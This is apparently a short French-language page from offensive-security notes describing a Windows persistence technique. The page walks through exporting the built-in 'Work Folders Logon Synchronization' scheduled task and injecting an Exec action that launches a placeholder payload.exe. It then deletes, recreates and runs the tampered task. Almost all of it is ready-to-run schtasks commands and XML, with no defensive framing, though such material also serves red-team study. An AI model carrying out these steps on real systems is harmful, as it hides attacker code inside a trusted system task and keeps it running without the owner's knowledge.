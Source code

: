 # Multiple Action Scheduled Task

Une autre technique consite a modifier les taches existantes, c'est tres similaire a XML [Scheduled Task](./Scheduled%20Task.md) 


```sh
schtasks /query /tn  "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /fo list /v

schtasks /query /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /xml > c:\pers\tsk.xml
```

Ajouter le contenu suivant dans le fichier `tsk.xml` juste apres `</ComHandler>`

```xml
<Exec>
  <Command>C:\pers\payload.exe</Command>
</Exec>
```

Puis executer

```sh
schtasks /delete /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /f
```

```sh
schtasks /create /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /xml c:\pers\tsk.xml

schtasks /query /tn  "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /fo list /v

schtasks /run /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization"
```


